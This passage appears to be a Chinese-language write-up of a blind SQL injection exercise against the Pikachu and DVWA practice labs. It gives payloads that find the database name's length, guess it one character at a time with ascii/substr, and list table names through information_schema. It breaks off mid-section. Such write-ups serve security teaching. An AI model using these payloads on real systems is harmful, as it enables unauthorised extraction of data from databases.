 字符型注入，构造payload：

```sql
'
12'+and+length(database())=7--+用#注释报错，改为--+
#确定数据库名长度为7
'
12'+and+ascii(substr(database(),1,1))>=48--+
'
12'+and+ascii(substr(database(),1,1))>=65--+
'
12'+and+ascii(substr(database(),1,1))>=97--+
```

可知第一个字符为小写字母，使用burpsuit的Intruder

![image-20221203210255171](assets/image-20221203210255171.png)

获取第一个字母为p

最终获取数据库名为pikachu

```sql
'
12'+and+length((select+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()))>=3--+
```

length=38

### 手工盲注

#### LOW

确定为字符型注入

**获取数据库名长度**

```
1' and length(database())=1#
1' and length(database())=2#
...
1' and length(database())=n#
```

n=4，数据库名长度为4

**猜解字母**

substr函数:
